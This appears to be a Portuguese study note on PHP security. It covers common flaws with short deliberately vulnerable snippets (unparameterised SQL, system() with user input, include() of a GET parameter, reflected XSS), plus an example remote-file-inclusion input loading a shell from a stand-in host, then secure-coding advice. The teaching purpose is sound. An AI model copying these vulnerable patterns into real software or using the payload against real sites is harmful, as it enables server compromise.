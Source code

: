 ```yaml
---
folder: "[[Programming]]"
---
```

PHP (Hypertext Preprocessor) é uma linguagem de script de código aberto amplamente usada, especialmente no desenvolvimento web para geração de conteúdo dinâmico em servidores. Inicialmente desenvolvida em 1994 por Rasmus Lerdorf, PHP evoluiu para ser uma das linguagens mais populares, com suporte embutido para vários sistemas de banco de dados e fácil integração com HTML.

### Funcionamento e Características
PHP é interpretado no servidor, o que significa que o código é executado no servidor antes de ser enviado ao navegador do usuário. O resultado do script PHP geralmente é uma página HTML que o navegador pode renderizar. Alguns pontos técnicos incluem:
- **Sintaxe simples e familiar**: A estrutura do PHP se assemelha a C e Perl, facilitando a adoção.
- **Lado do servidor**: Executado no servidor, o que melhora a segurança e reduz o processamento no cliente.
- **Integração com HTML**: Pode ser embutido diretamente no HTML, o que o torna fácil de usar em desenvolvimento web.
- **Ampla compatibilidade com bancos de dados**: MySQL, PostgreSQL, SQLite, entre outros.
- **Bibliotecas integradas**: PHP tem suporte nativo para manipulação de arquivos, sessões, cookies e outras funcionalidades úteis em aplicações web.

### Principais Usos no Hacking
No contexto de segurança e hacking, o PHP é frequentemente explorado devido a sua presença em uma grande quantidade de websites e sistemas web. Hackers podem explorar vulnerabilidades em PHP para:
- **Injeção de código malicioso**: Inserindo scripts maliciosos em aplicações vulneráveis para executar comandos no servidor.
- **Upload de shells web**: Utilizado para obter acesso remoto ao servidor.
- **Modificação de conteúdo e injeção de SQL**: Através de falhas na sanitização de dados de entrada, é possível manipular consultas SQL, o que pode expor dados sensíveis.

### Vulnerabilidades Comuns e Perigosas
PHP tem um histórico de vulnerabilidades que são exploradas em contextos de segurança cibernética. Algumas das mais comuns e críticas são:

1. **Injeção de SQL (SQL Injection)**:
   - A injeção SQL ocorre quando um atacante consegue manipular consultas SQL pela entrada de dados do usuário.
   - Ferramentas como SQLmap exploram essas falhas para obter acesso não autorizado a dados.

   **Exemplo de Código Vulnerável:**
   ```php
   $id = $_GET['id'];
   $result = mysql_query("SELECT * FROM users WHERE id = $id");
   ```
   Esse código é vulnerável porque o valor de `$id` não é filtrado, permitindo manipulações na consulta.

2. **Injeção de Comandos (Command Injection)**:
   - Acontece quando o PHP executa comandos no sistema operacional sem sanitização.
   - Um código vulnerável pode ser algo como:
     ```php
     $cmd = $_GET['cmd'];
     system("ls $cmd");
     ```
     Inserindo comandos maliciosos em `$cmd`, um atacante pode executar operações no servidor.

3. **Inclusão Remota de Arquivos (RFI - Remote File Inclusion)**:
   - Permite que atacantes incluam arquivos externos, possibilitando a execução de código remoto.
   - Exemplo:
     ```php
     include($_GET['page']);
     ```
     Uma entrada maliciosa como `http://exemplo.com/?page=http://malicioso.com/shell.txt` pode comprometer o sistema.

4. **Cross-Site Scripting (XSS)**:
   - O XSS ocorre quando entradas de usuários são refletidas no site sem sanitização, permitindo execução de scripts no navegador de outro usuário.
   - Exemplo:
     ```php
     echo "Bem-vindo, " . $_GET['nome'];
     ```

5. **Cross-Site Request Forgery (CSRF)**:
   - Um ataque CSRF explora a confiança do navegador do usuário no site, enviando requisições não autorizadas.
   - A ausência de tokens de proteção em formulários pode facilitar esses ataques.

6. **Exposição de Informações Sensíveis**:
   - PHP permite a leitura de variáveis e arquivos internos, o que pode expor informações sensíveis.
   - Funções como `phpinfo()` podem revelar detalhes críticos do sistema.

### Boas Práticas para Evitar Vulnerabilidades
1. **Sanitização e Validação de Dados**: Use funções como `htmlspecialchars()` para evitar XSS e prepared statements para proteger contra SQL Injection.
2. **Configurações Seguras**: Desabilite `allow_url_include` e `register_globals`, e limite o uso de `eval()`.
3. **Controle de Acesso e Autenticação**: Adote tokens CSRF e verificação de permissões em todas as ações sensíveis.
4. **Monitoração e Logs**: Monitore atividades e armazene logs de erros e tentativas de acesso suspeitas.

PHP, apesar de suas vulnerabilidades, é extremamente útil para a criação de sites dinâmicos. Sua segurança depende fortemente de como é utilizado e da implementação de práticas seguras de programação. Quer aprofundar algum ponto específico ou ver algum exemplo de exploit?